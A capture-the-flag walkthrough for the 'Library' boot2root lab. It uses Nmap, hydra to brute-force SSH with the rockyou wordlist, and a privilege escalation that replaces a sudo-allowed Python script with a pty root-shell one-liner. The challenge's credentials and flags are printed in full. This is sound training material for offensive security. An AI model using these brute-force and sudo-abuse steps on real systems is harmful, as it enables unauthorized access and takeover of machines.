

# Library

## Description

boot2root machine for FIT and bsides guatemala CTF

Read user.txt and root.txt

## Initial Scan

Let's start with an Nmap scan. The scan reveals two open ports:
* 22 ssh
* 80 http

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Web page

We can't get initial access to ssh service, so let's start with the web service. After taking a look at the webpage I saw a post with the name of the author, which can be a possible username: `meliodas`

Then I looked up `robots.txt`:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Library/files]
└─$ curl -s "http://$IP/robots.txt"  
User-agent: rockyou 
Disallow: /
~~~

We can see the word "rockyou" which is probably refering to rockyou wordlist. I guessed that I might be able to brute-force the ssh service with the username we have and rockyou wordlist.

## Brute-forcing SSH

I used `hydra` to do the brute-force attack:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Library]
└─$ hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://$IP/
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-10 03:58:35
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.236.52:22/
[STATUS] 175.08 tries/min, 178 tries in 00:01h, 14344222 to do in 1365:29h, 16 active
[22][ssh] host: 10.10.236.52   login: meliodas   password: iloveyou1
1 of 1 target successfully completed, 1 valid password found
~~~

Geate! The username was valid, and we have the password too:
* Username: `meliodas`
* Password: `iloveyou1`

## User flag

Now we can use the creds (`meliodas;iloveyou1`) to connect to the machine via ssh. The user flag is in `meliodas`'s home directory:

~~~
meliodas@ubuntu:~$ ls
bak.py  user.txt
meliodas@ubuntu:~$ cat user.txt 
6d488cbb3f111d135722c33cb635f4ec
~~~

user.txt: `6d488cbb3f111d135722c33cb635f4ec`

## Going root

Now we need to gain root access in order to obtain the root flag. I ran `sudo -l` to check my sudo permissions:

~~~
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
~~~

As you can see, we can run a python script (`/home/meliodas/bak.py`) using `python` with sudo and no password. The script is owned by root and we don't have write access:

~~~
meliodas@ubuntu:~$ ls -la bak.py 
-rw-r--r-- 1 root root 353 Aug 23  2019 bak.py
~~~

But, it is located in our home directory, which means we can remove it. We can replace it with a python one-liner that spawns a TTY shell with the same name and when we run it with sudo, it will spawn a root shell. Let's do it:

~~~
meliodas@ubuntu:~$ rm bak.py 
rm: remove write-protected regular file 'bak.py'? y    
meliodas@ubuntu:~$ echo "import pty;pty.spawn('/bin/bash')" > bak.py
meliodas@ubuntu:~$ sudo /usr/bin/python /home/meliodas/bak.py
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Root flag

Now that we are root, we can head to `/root` and read the root flag:

~~~
root@ubuntu:~# cd /root
root@ubuntu:/root# cat root.txt 
e8c8c6c256c35515d1d344ee0488c617
~~~

root.txt: `e8c8c6c256c35515d1d344ee0488c617`

# D0N3! ; )

Thanks to the creator!

Hope you had fun and learned something.

Have a g00d one! : )